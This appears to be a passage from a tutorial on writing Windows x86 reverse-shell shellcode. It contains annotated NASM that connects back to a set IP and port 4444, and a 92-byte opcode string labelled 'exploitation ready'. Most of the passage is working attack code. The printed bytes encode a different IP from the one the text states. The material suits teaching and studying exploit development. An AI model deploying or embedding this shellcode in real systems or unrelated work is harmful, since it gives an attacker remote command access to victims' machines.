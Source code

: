 For the reverse shell, we will reuse a lot from the bind shell code. In fact, we are just going to replace bind(), listen() and accept() with connect(). 

## System call: connect

Documentation: <a href="https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect">https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect</a>

Syntax:
```nasm
connect(SOCKET s, const sockaddr *name, int namelen)
```

The connect system call connects to a socket. It takes three arguments and looks more or less like bind().

```nasm
push 0x8201A8C0      ; Remote IP address, 192.168.1.130   
mov eax, 0x5c110102  ; Port nr, 4444 (first 2 bytes) 
dec ah               ; eax: 0x5c110102 -> 0x5c110002 (Mitigating null byte)
push eax             ; Store portnr on stack
mov esi, esp         ; Store pointer to portnr
xor eax, eax         ; Clear eax
mov al, 0x10         ; Makes eax = 0x00000010
push eax             ; Arg3 (namelen) = 16 bytes
push esi             ; Arg2 (*name) = esi -> 0x5c110002 (5c11 = 4444, 0002 = INET_AF)
push ebx             ; Arg1 (s) = WSASocket() handler
mov eax, 0x71ab4a07  ; Address to connect()
call eax
```

The logic for the remote IP address is the following:
```nasm
82 = 130
01 = 1
A8 = 168
C0 = 192
```

### Exploitation ready reverse shell (92 bytes)

Compiled without LoadLibraryA() and WSAStartup().

```text
$ for i in $(objdump -d reverse.exe | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
\x31\xc0\x50\x50\x50\x50\x6a\x01\x6a\x02\xb8\x6a\x8b\xab\x71\xff\xd0\x89\xc3\x68
\xc0\xa8\x38\x01\xb8\x02\x01\x11\x5c\xfe\xcc\x50\x89\xe6\x31\xc0\xb0\x10\x50\x56
\x53\xb8\x07\x4a\xab\x71\xff\xd0\xba\x63\xd3\x81\x7c\x53\x6a\xf6\xff\xd2\x53\x6a
\xf5\xff\xd2\x53\x6a\xf4\xff\xd2\xc7\x44\x24\xfb\x41\x63\x6d\x64\x8d\x44\x24\xfc
\x8d\x64\x24\xfc\x50\xb8\xc7\x93\xc2\x77\xff\xd0
```

Highly recommended read about shellcoding:
<a href="http://www.hick.org/code/skape/papers/win32-shellcode.pdf">http://www.hick.org/code/skape/papers/win32-shellcode.pdf</a>
